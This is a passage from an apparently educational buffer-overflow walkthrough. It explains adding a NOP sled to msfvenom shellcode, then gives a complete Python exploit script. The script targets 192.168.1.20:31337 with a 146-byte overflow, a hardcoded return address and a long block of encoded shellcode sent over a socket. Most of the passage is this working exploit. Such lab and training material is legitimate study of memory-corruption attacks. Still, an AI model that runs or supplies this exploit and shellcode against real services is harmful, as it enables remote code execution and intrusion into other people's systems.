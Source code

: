 Copy the generated C code strings and put them into your exploit script payload variable.

#### Prepend NOPs

Encoders used in msfvenom may require additional space in memory for the payload to decode and execute so we can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```
padding = "\x90" * 16
```

#### Exploit

Now our exploit script should be something like this

```
import socket

ip = "192.168.1.20"
port = 31337

offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90" * 16
payload = (""\xbd\x71\x1f\x93\xc1\xd9\xc7\xd9\x74\x24\xf4\x58\x29\xc9"
"\xb1\x52\x31\x68\x12\x83\xc0\x04\x03\x19\x11\x71\x34\x25"
"\xc5\xf7\xb7\xd5\x16\x98\x3e\x30\x27\x98\x25\x31\x18\x28"
"\x2d\x17\x95\xc3\x63\x83\x2e\xa1\xab\xa4\x87\x0c\x8a\x8b"
"\x18\x3c\xee\x8a\x9a\x3f\x23\x6c\xa2\x8f\x36\x6d\xe3\xf2"
"\xbb\x3f\xbc\x79\x69\xaf\xc9\x34\xb2\x44\x81\xd9\xb2\xb9"
"\x52\xdb\x93\x6c\xe8\x82\x33\x8f\x3d\xbf\x7d\x97\x22\xfa"
"\x34\x2c\x90\x70\xc7\xe4\xe8\x79\x64\xc9\xc4\x8b\x74\x0e"
"\xe2\x73\x03\x66\x10\x09\x14\xbd\x6a\xd5\x91\x25\xcc\x9e"
"\x02\x81\xec\x73\xd4\x42\xe2\x38\x92\x0c\xe7\xbf\x77\x27"
"\x13\x4b\x76\xe7\x95\x0f\x5d\x23\xfd\xd4\xfc\x72\x5b\xba"
"\x01\x64\x04\x63\xa4\xef\xa9\x70\xd5\xb2\xa5\xb5\xd4\x4c"
"\x36\xd2\x6f\x3f\x04\x7d\xc4\xd7\x24\xf6\xc2\x20\x4a\x2d"
"\xb2\xbe\xb5\xce\xc3\x97\x71\x9a\x93\x8f\x50\xa3\x7f\x4f"
"\x5c\x76\x2f\x1f\xf2\x29\x90\xcf\xb2\x99\x78\x05\x3d\xc5"
"\x99\x26\x97\x6e\x33\xdd\x70\x9b\xd1\xb4\xee\xf3\xdb\x46"
"\xeb\xd1\x55\xa0\x99\xc5\x33\x7b\x36\x7f\x1e\xf7\xa7\x80"
"\xb4\x72\xe7\x0b\x3b\x83\xa6\xfb\x36\x97\x5f\x0c\x0d\xc5"
"\xf6\x13\xbb\x61\x94\x86\x20\x71\xd3\xba\xfe\x26\xb4\x0d"
"\xf7\xa2\x28\x37\xa1\xd0\xb0\xa1\x8a\x50\x6f\x12\x14\x59"
"\xe2\x2e\x32\x49\x3a\xae\x7e\x3d\x92\xf9\x28\xeb\x54\x50"
"\x9b\x45\x0f\x0f\x75\x01\xd6\x63\x46\x57\xd7\xa9\x30\xb7"
"\x66\x04\x05\xc8\x47\xc0\x81\xb1\xb5\x70\x6d\x68\x7e\x90"
"\x8c\xb8\x8b\x39\x09\x29\x36\x24\xaa\x84\x75\x51\x29\x2c"
"\x06\xa6\x31\x45\x03\xe2\xf5\xb6\x79\x7b\x90\xb8\x2e\x7c"
"\xb1")
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
